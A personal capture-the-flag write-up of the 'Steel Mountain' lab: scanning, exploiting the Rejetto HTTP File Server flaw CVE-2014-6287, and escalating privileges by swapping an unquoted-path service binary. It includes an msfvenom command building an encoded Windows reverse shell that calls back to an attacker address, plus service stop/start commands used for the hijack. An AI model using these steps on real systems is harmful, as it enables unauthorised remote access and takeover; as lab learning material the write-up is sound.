# Steel Mountain

##### Written: 10/09/2020

#### IP Address: 10.10.213.55

<br>

#### **[TASK 1] INTRODUCTION**

* **Deploy the machine.**

Done.

* **Who is the employee of the month?**

Navigating to the IP in my browser, I can see the following image.



To find out the name of the employee, I just had to save the image, and his name is exposed as the filename of the image.


<br>

Alternatively, I could also look at the source code to find out his name.



<br>

---

#### **[TASK 2] INITIAL ACCESS**

* **Scan the machine with nmap. What is the other port running a web server on?**

I ran a basic **nmap** scan on the top 1000 ports with the following command:

``` 
nmap -sV -sC -vv -oN nmap_initial 10.10.213.55
```

The results of the nmap scan are as follows:


As we can see, the other port that a web server is running on is **8080**.

<br>

* **Take a look at the other web server. What file server is running?**

Accessing the other web server running on port 8080, I came to this website.


We can see that the file server that is running is the **rejetto http file server**.

<br>

* **What is the CVE number to exploit this file server?**

Doing a basic google search for the version number of this httpfileserver gave me the exploit on exploitdb.


The CVE for the exploit is **2014-6287**

[ I did not want to just use a script blindly, and wanted to at least have a bit of understanding of how it works. Doing some research, I found out that the exploit works by making use of an issue due to poor regex in the file ParserLib.pas. 

*function findMacroMarker(s:string; ofs:integer=1):integer;*

*begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;*

Hence, it will not handle nullbyte requests, which means we can use "%00" to bypass the macro filters, 'save' and 'exec' macro commands to create vbs file, which we can then execute on the target system. 

*A VBS file is a Virtual Basic script written in the VBScript scripting language. It contains code that can be executed within Windows or Internet Explorer, via the Windows-based script host (Wscript.exe), to perform certain admin and processing functions.* ]

<br>

* **Use Metasploit to get an initial shell. What is the user flag?**

After finding the exploit on msfconsole, using it, and setting the appropriate options:


I then ran the exploit, which gave the following results:



Looks like I'm in! :smile:

<br>

We are initially logged in as the user **Bill**.



We can then find the **user.txt** file can be found in his desktop directory.



<br>

---

#### **[TASK 3] PRIVILEGE ESCALATION**

* **To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."***

  **You can download the script here. Now you can use the upload command in Metasploit to upload the script.**

We simply git clone the privesc script onto our local machine. We then use Meterpreter's '**upload**' function to upload the privesc file onto the target machine.


<br>

* **To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:**

After loading the powershell extension, we get new options available!




<br>

* **Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name?**

To run the script, I first run the script with '**. .\PowerUp.ps1**', followed by typing in the command '**Invoke-AllChecks**'


<br>

CanRestart option that is set to true:



Hence, the name of the unquoted service path name is **AdvancedSystemCareService9**.

<br>

* **The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!**

  **Use msfvenom to generate a reverse shell as an Windows executable.**

First, we use **msfvenom** to generate the reverse_shell payload as a windows executable file. This can be done with the following command.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.6.205 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```



We save the output payload as **ASCService.exe** as it is the file that we want to replace!

Next, we upload the file onto the target machine through meterpreter.



Navigating to the directory, which is writable, we can see the file that we have to replace:


*Note: I had to open a shell in order to cd into this directory. For some reason, I could not do it in meterpreter. UPDATE: the reason why I was unable to cd into the directory was because it contained spaces in its name. Hence, I needed to encapsulate the path in " "*

Now, we have to stop the service. From the privesc scan earlier, we can see that the restartable service is called **AdvancedSystemCare9**. We can stop this service with the command '**sc stop**'.


Next, I copied the payload executable to the directory, using the '**copy**' command.


Note: Since the destination directory contains spaces, I had to encapsulate the entire path in **" "**! This is very important. If not, you will not be able to move the files as there would be an error produced.

It will prompt us whether we would like to overwrite the file, and with that, I have now successfully overwritten the file! One thing to note is that I tried other methods to overwrite the file, including moving the payload to the directory first, and trying to delete the original service file. That did not work as I kept getting 'access denied' error. Also, I had the payload named as 'advanced.exe' first, and when I tried to rename it to 'ASCService.exe' **inside** the '**Advanced SystemCare**' directory, it would not let me. So it seems the safest bet would be to rename the payload **first**, before copying over to the target directory.

<br>

Before I start the service, we run a **netcat** listener on our local machine first, to catch the connection.


Now, I just have to start the service again, so that our malicious code can execute!



With that, I am in as the root user!


The **root.txt** flag can be found in the administrator Desktop directory!



<br>

---

#### **[TASK 4] ACCESS AND ESCALATION WITHOUT METASPLOIT**

*Machine was restarted for this section!*

* **Now let's complete the room without the use of Metasploit.**

  **For this we will utilize powershell and winPEAS to enumerate the system and collect the relevant information to escalate.**

  **To begin we shall be using the same CVE. However, this time let's use this exploit.**

  **Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!***

  **To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!**

  **You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!**

First, I used **searchsploit** to search for and copy over the exploit python file onto my local machine.


Next, I used a text editor to edit the file and change the ip address and port inside to mine.

Note that in the exploit, they specifically mention that we should be running a web server hosting netcat (nc.exe). Fortunately for us, we can do that easily with **Python httpserver**! Since we have already installed the ncat.exe binary, given in the task, all we have to do is host a web server in that directory. (Our web server has to be on Port 80, as stated in the exploit as well!)


At the same time, we need to run a netcat listener to catch the connection.


With these all set up, we can run the exploit script!



Aaaaand we're in!

<br>

We first navigate over to bill's desktop. Now, we can host another python http server on our local machine, and use **wget** over on our target machine to download the winPEAS.exe file over. To use wget, we preface the command with '**powershell -c**'. The -c tag means '**command**' 

**IMPORTANT:** you need to specify the **-outfile** name, as without it, the file would not have a label, and hence, we cannot interact with it!



Now, we can just run the file and see what results we get!



<br>

<br>

* **Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.**

  **Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.**


<br>

* **What powershell -c command could we run to manually find out the service name?** 

  ***Format is "powershell -c "command here"***

```
powershell -c get-service
```

<br>

* **Now let's escalate to Administrator with our new found knowledge.**

  **Generate your payload using msfvenom and pull it to the system using powershell.**

  **Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.**

  **First we need to stop the service which we can do like so:**

```
sc stop AdvancedSystemCareService9
```

**Shortly followed by:**

```
sc start AdvancedSystemCareService9
```

**Once this command runs, you will see you gain a shell as Administrator on our listener!**

Now we just have to repeat the exploitation steps done for the earlier tasks!


And we're in as root!

